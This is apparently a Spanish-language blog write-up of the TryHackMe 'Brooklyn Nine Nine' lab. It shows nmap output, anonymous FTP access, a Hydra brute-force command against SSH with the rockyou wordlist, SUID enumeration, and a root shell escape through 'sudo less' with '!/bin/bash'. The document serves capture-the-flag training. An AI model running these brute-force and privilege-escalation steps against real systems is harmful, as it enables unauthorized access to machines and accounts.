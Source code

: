 ```yaml
---
title: "BroklingNiveNive Writeup - Try-Hack-Me"
date: 2024-01-04
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets\img\imagenes\Brooklyn.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "BroklingNiveNive banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### namp
```python 
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp   open     http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1002/tcp filtered windows-icfw
1057/tcp filtered startron
2135/tcp filtered gris
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### puerto 21 ftp abierto y missconfigure con anonymous

###### tenemos un archivo
```pyhton
	From Amy,
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
###### este archivo nos da 3 usuarios 
```python
	Username: Amy
	Username: Jake
	Username: holt
```

### aplicamos fuerza bruta con hydra 
```python
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh
```

![img](/assets/img/imagenes/Pasted image 20231107001617.png)

### ingresamos por ssh con las credenciales que hemos conseguido
![img](/assets/img/imagenes/Pasted image 20231107002238.png)
en la ruta /home/holt podemos conseguir la flag user.txt

### vamos a escalar privilegios
###### buscaremos permisos SUID
```python 
	find / -perm -u=s -type f 2>/dev/null
```
###### podemos ver un direcctorio /usr/bin/less hacemos sudo -l
![img](/assets/img/imagenes/Pasted image 20231107005512.png)

### el usuario jake puede ejecutar todo con lo que quiera con (ALL) /usr/bin/less con el directorio less sin proporcionar contraseña NOPASSWD

```python 
	sudo less /etc/profile
```
###### debido a que podemos ejecutar less como sudo. podemos crear un archivo de texto y seguido de esto podemos decirle
```python
	!/bin/bash
```
### WE ARE ROOT